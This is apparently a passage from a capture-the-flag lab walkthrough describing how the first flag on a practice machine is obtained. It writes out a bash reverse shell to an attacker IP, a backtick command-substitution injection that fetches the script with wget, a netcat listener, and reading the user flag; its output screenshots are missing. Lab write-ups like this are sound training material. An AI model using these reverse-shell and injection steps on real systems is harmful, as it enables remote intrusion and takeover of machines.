





4.1 Create a bash reverse shell (First flag)
1. On your Kali Machine create a file called “shell.sh” with the following content.
#!/bin/bash
bash -i >& /dev/tcp/192.168.12.60/443 0>&1
2. Change file's permissions .
$ chmod +x shell.sh3. On your Kali Machine create a python server.
$ python3 -m http.server
Output:

4. On the victims machine make a commands sustitution to bring the shell.
System command: echo `wget http://192.168.12.60:8000/shell.sh`
You can see on the shell with the python server a new connection.
Output:

5. Close the python server.
6. On your Kali Machine open a “netcat” connection on port 443.
$ sudo nc -nlvp 443Output:

7. On the victime's machine run the following.
System command: echo `bash ./shell.sh`
Output:

8. Run the following commands to get the flag.
brad@crazymed:~$ ls
brad@crazymed:~$ cat user.txt
Output:
